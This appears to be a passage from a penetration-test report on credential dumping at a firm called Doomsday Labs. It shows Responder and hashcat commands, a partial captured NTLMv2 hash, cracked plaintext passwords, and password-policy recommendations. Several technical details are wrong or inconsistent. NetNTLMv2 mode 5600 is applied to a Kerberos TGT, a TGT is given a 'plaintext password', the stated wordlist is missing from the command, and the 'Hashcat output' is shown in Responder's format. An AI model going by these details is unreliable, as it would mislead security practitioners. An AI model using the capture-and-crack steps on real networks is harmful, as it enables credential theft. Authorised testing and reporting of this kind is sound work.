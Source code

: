 # Credential Dumping Findings

## Overview

This section covers the detailed methodology and findings from the credential dumping activities conducted during the penetration test at Doomsday Labs. We used advanced tools like Responder and Hashcat to capture and decrypt credentials from network traffic.

## Technical Details

### Methods
- **Using Responder to Capture Hashes**:
  - We set up Responder to listen on the network and intercept NTLM hash exchanges. Here’s the command used:
    ```
    sudo responder -I tun0 -A
    ```
  - Responder successfully captured the NTLMv2 hash for the user "DOOMSDAYLABS\filemaker".

- **Hash Cracking with Hashcat**:
  - The captured hash was then cracked using Hashcat with the rockyou.txt wordlist to extract the plaintext password. The command was:
    ```
    hashcat -m 5600 hashfile.txt -r rules.txt -o hashfile.out
    ```
  - **Hash Example**:
    ```
    [SMB] NTLMv2-SSP Client   : 10.100.1.3
    [SMB] NTLMv2-SSP Username : DOOMSDAYLABS\filemaker
    [SMB] NTLMv2-SSP Hash     : filemaker::DOOMSDAYLABS:322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0:01010000000000008017EBA84C92D...
    ```
  - **Plaintext Password**: `Football24`

### Evidence
- **Logs and Outputs**:
  - Responder and Hashcat logs were crucial in documenting the successful capture and decryption of credentials. Screenshots of these logs are maintained as evidence of the process.
  - A typical entry from the Hashcat output showing the cracked password would look like this:
    ```
    [SMB] NTLMv2-SSP Hash Cracked: DOOMSDAYLABS\filemaker:Football24
    ```

### Additional Cracking Efforts
- **TGT Cracking**:
  - We also targeted the Kerberos TGTs using Hashcat. Below is the command and the TGT details involved:
    ```
    hashcat -m 5600 krbtgt_hash.txt -o cracked_tgt.txt
    ```
  - **Base64 TGT Example**:
    ```
    Base64: doIF0jCCBc6gAwIBBaEDAgEWooIEyzCCBMdhggTDMIIE...
    ```
  - **Plaintext TGT Password**: `Sunshine24`

## Impact Assessment

- **Potential Risks**:
  - **Unauthorized Access**: Exposed credentials, especially administrative ones, can lead to unauthorized access to critical systems and data breaches.
  - **Data Integrity Threats**: Attackers with stolen credentials can alter or delete sensitive data, undermining the integrity of business operations.
  - **Persistence and Lateral Movement**: Successfully cracked credentials allow attackers to maintain persistent access to the network and facilitate lateral movement across different systems.

## Recommendations

- **Strengthen Password Policies**:
  - Enforce the use of strong, complex passwords that are difficult to crack. Consider using passphrase guidelines that mix in numbers and symbols.
  - Update password requirements to include a minimum length of 12 characters.

- **Implement Regular Password Changes and Audits**:
  - Mandate password changes every 60 to 90 days to limit the window of opportunity for attackers using stolen credentials.
  - Conduct frequent security audits to ensure that all users adhere to the updated password policies and to identify any potential security gaps.

## Conclusion
The credential dumping efforts during the penetration test revealed significant vulnerabilities in Doomsday Labs' password security practices. Adopting stringent password policies and regular audits can help mitigate these security risks and protect against future breaches.
